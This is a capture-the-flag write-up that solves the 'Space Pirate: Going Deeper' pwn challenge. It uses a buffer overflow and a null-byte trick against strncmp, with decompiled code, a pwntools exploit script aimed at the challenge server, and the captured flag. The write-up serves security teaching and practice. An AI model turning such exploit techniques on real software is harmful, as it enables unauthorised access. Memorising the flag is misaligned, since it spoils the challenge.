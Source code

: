 # CTF HackTheBox 2021 Cyber Apocalypse 2021 - Space Pirate: Going Deeper

Category: Pwn, Points: 375

![info.JPG](images/info.JPG)


Attached file [pwn_sp_going_deeper.zip](./pwn_sp_going_deeper.zip)

# Space Pirate: Entrypoint Solution

Let's check the binary using ```checksec```:
```
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/Space_Pirate_Going_Deeper]
└──╼ $ checksec sp_going_deeper
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  './glibc/'

```

[Full RELRO](https://ctf101.org/binary-exploitation/relocation-read-only/) (removes the ability to perform a "GOT overwrite" attack), No canary, and no PIE.

By running the binary we get:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/Space_Going_Deeper]
└──╼ $ ./sp_going_deeper 


                  Trying to leak information from the pc.. 🖥️


             ____________________________________________________
            /                                                    \
           |    _____________________________________________     |
           |   |                                             |    |
           |   | goldenfang@d12:$ history                    |    |
           |   |     1 ls                                    |    |
           |   |     2 mv secret_pass.txt flag.txt           |    |
           |   |     3 chmod -x missile_launcher.py          |    |
           |   |     4 ls                                    |    |
           |   |     5 history                               |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |_____________________________________________|    |
           |                                                      |
            \_____________________________________________________/
                   \_______________________________________/
                _______________________________________________
             _-'    .-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.  --- `-_
          _-'.-.-. .---.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.--.  .-.-.`-_
       _-'.-.-.-. .---.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-`__`. .-.-.-.`-_
    _-'.-.-.-.-. .-----.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-----. .-.-.-.-.`-_
 _-'.-.-.-.-.-. .---.-. .-----------------------------. .-.---. .---.-.-.-.`-_
:-----------------------------------------------------------------------------:
`---._.-----------------------------------------------------------------._.---'


[*] Safety mechanisms are enabled!
[*] Values are set to: a = [1], b = [2], c = [3].
[*] If you want to continue, disable the mechanism or login as admin.

1. Disable mechanisms ⚙️
2. Login ✅
3. Exit 🏃
>> 
```

By decompiling the binary using [Ghidra](https://github.com/NationalSecurityAgency/ghidra) we can see the following ```main``` function:
```c
undefined8 main(void)
{
  setup();
  banner();
  puts("\x1b[1;34m");
  admin_panel(1,2,3);
  return 0;
}
```

Let's observe on ```admin_panel()``` function:
```c
void admin_panel(long param_1,long param_2,long param_3)
{
  int iVar1;
  char local_38 [40];
  long local_10;
  
  local_10 = 0;
  printf("[*] Safety mechanisms are enabled!\n[*] Values are set to: a = [%x], b = [%ld], c = [%ld].\n[*] If you want to continue, disable the mechanism or login as admin.\n"
         ,param_1,param_2,param_3);
  while (((local_10 != 1 && (local_10 != 2)) && (local_10 != 3))) {
    printf(&DAT_004014e8);
    local_10 = read_num();
  }
  if (local_10 == 1) {
    printf("\n[*] Input: ");
  }
  else {
    if (local_10 != 2) {
      puts("\n[!] Exiting..\n");
                    /* WARNING: Subroutine does not return */
      exit(0x1b39);
    }
    printf("\n[*] Username: ");
  }
  read(0,local_38,0x39);
  if (((param_1 != 0xdeadbeef) || (param_2 != 0x1337c0de)) || (param_3 != 0x1337beef)) {
    iVar1 = strncmp("DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft",local_38,0x34);
    if (iVar1 != 0) {
      printf("\n%s[-] Authentication failed!\n",&DAT_00400c40);
      goto LAB_00400b38;
    }
  }
  printf("\n%s[+] Welcome admin! The secret message is: ",&DAT_00400c38);
  system("cat flag*");
LAB_00400b38:
  puts("\n[!] For security reasons, you are logged out..\n");
  return;
}
```


```read``` function reads ```0x39``` bytes where ```local_38``` buffer size is ```0x28```.

```strncmp``` comapres ```local_38``` with ```DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft``` where the length of this string is ```0x34```.

```strncmp``` will compare strings until the NULL string terminator ```\x00```.

We have to include ```\x00``` in our input to make ```strncmp``` ignore from ```\n``` character.

Let's solve it using the following ```python``` [./solve.py](./solve.py):
```python
from pwn import *

elf = ELF('./sp_going_deeper')
libc = elf.libc

if args.REMOTE:
    p = remote('46.101.27.51', 30335)
else:
    p = process(elf.path)

p.recvuntil('>')
p.sendline("1")
print(p.recvuntil(':'))
p.sendline(b"DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft\x00")
p.interactive()
```

Run it:
```console
┌─[evyatar@parrot]─[/ctf_htb/cyber_apocalypse/pwn/Space_Going_Deeper]
└──╼ $ python3 solve.py REMOTE
[*] '/ctf_htb/cyber_apocalypse/pwn/Space_Going_Deeper/sp_going_deeper'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
[*] '/ctf_htb/cyber_apocalypse/pwn/Space_Going_Deeper/glibc/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 46.101.27.51 on port 30335: Done
b'> \n[*] Input:'
[*] Switching to interactive mode
 
[+] Welcome admin! The secret message is: HTB{n0_n33d_2_ch4ng3_m3ch5_wh3n_u_h4v3_fl0w_r3d1r3ct}

[!] For security reasons, you are logged out..

[*] Got EOF while reading in interactive
$  
```

And we get the flag ```HTB{n0_n33d_2_ch4ng3_m3ch5_wh3n_u_h4v3_fl0w_r3d1r3ct}```.